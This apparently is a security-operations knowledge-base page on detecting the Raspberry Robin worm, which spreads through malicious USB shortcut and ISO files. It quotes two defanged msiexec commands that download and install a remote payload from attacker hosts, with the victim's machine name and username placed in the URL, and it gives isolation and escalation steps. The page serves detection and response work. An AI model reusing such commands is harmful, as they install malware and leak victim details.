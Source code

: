 # **.LNK or .ISO embedding Malicious Commands from Raspberry Robin Campaign**

<h2> Introduction </h2>
This certain detection is specific to the Raspberry Robin Campaign. The infection consists of an intelligent worm that propagates over removable USB devices containing malicious a .LNK file and leverages compromised QNAP network-attached storage (NAS) devices for command-and-control. It was first documented by researchers from Red Canary in May 2022. There has been much public debate about whether the Raspberry Robin drives use autoruns to launch or if it relies purely on social engineering to encourage users to click the LNK file. In other scenarios, phishing emails containing .ISO files have been used to load this infection, but mainly shortcut files (.LNK) embedded with malicious command line code have been the primary vector. Shortcut files are typically used to quickly access a program or folder from your personal computer desktop and .ISO files (Optical disk images) are perfect representations of an entire CD, DVD, or BD which are capable of unwanted program installations.

The full attack chain can be found in the image below:

![image](https://github.com/jake-44/Knowledge-Base/assets/72994837/201d5ccd-8d39-435a-a995-2fd37cc264ad)

Before diving into any indicators of compromise and tactics, techniques and procedures, please visit the sites below if you require any additional explanation of the threat actors involved or background into the Raspberry Robin Campaign:

- https://www.microsoft.com/en-us/security/blog/2022/10/27/raspberry-robin-worm-part-of-larger-ecosystem-facilitating-pre-ransomware-activity/
- https://thehackernews.com/2022/07/researchers-warn-of-raspberry-robins.html

<h2> IOCs and TTPs </h2>
Now that we understand the origins of this malicious activity and the functionality of the file types which carry the embedded code, we can start to breakdown the attack chain into identifiable parts. 

**[SOC specific watchlist description and detection tuning as well as SOC specific investigation procedures, redacted for security purposes]**

![image](https://github.com/jake-44/Knowledge-Base/assets/72994837/8b357a93-0e1a-4693-b29b-f3edc2296f1d)

The command spawning from the original detection should replicate the above image and be spawning similar commands. As the normal installation proceeds, the msiexec.exe command listed above creates another msiexec.exe /V process, launched from services.exe. This second msiexec.exe /V process then spawns a third msiexec.exe process, which loads a malicious module named msi[...].tmp and is the malware stage downloaded from its parent msiexec.exe /V process.

**msIEXeC -Q/i ""htTP[]//6y.RE:8080/5CBniie70Rw/[Machine name]=[Victim username]"**
**mSIExEC /Q -I"hTTP[]//u0.pm:8080/80wOpGuotSU/USER-PC?admin"**

If not done so already, once this activity is observed, **IMMEDIATELY** isolate the host in question. This is guaranteed to be confirmed malicious activity and the proper recommendation is to escalate this alert to our forensics team and the appropriate Team Lead within the SOC. The client should be notified immediately after isolation and asked to provide any recent USB activity conducted or phishing attempts identified by the user. 


<h2> References </h2>
- https://www.cybereason.com/blog/threat-alert-raspberry-robin-worm-abuses-windows-installer-and-qnap-devices
- https://redcanary.com/blog/raspberry-robin/
- https://attack.mitre.org/techniques/T1204/002/
